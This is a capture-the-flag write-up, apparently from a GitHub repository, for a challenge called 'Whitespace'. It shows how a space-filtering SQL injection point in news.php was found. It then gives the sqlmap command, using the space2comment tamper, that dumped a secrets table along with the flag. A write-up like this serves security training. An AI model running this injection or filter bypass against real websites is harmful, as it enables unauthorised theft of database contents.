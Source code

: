 # Whitespace Writeup

>Flag: FNW_CTF{34sy_byp4ss_sql_1njection_f1lt3r_sp4c3}

First glance at the website:

![image](https://user-images.githubusercontent.com/80664686/117593090-237add80-b165-11eb-9607-b1559c3afe53.png)

## Tinkering around
The website had 3 main page: `index.php`, `price.php` and `contact.php`

In **price.php** and **contact.php** there's nothing special.

In the news part, when checking out a post, it goes to an URL:
> http://chall9.ctf.night-wolf.io/news.php?id=10

Hmm... that id part must have something.

After testing for a while, I found out that when input is `+`, `;` and ` `(space) it will prompt:

![image](https://user-images.githubusercontent.com/80664686/117595342-bff3ae80-b16a-11eb-8a24-feff8736247d.png)

This must be it, also I was hint for *SQLi*.

## Exploitation

Send this to `sqlmap` to run. Because of white space retriction, we can use tamper script `space2comment`

```fish
$ sqlmap -u chall9.ctf.night-wolf.io/news.php?id=1 --tamper=space2comment --batch --dump
```
Result:
```
...
Database: news_app
Table: secrets
[4 entries]
+-----------+--------------+-------------------------------------------------+
| secret_id | name         | value                                           |
+-----------+--------------+-------------------------------------------------+
| 1         | secret_key   | ZEwI6DHBIzKKU5D4gquM/A==                        |
| 2         | password_key | 3a8756aa44595874dc665429d209e43e                |
| 3         | token_key    | 28f27090594826e0915eecc2a06707e3fec41666        |
| 4         | flag         | FNW_CTF{34sy_byp4ss_sql_1njection_f1lt3r_sp4c3} |
+-----------+--------------+-------------------------------------------------+

...
```
🎉🎉🎉

[Go back](README.md)
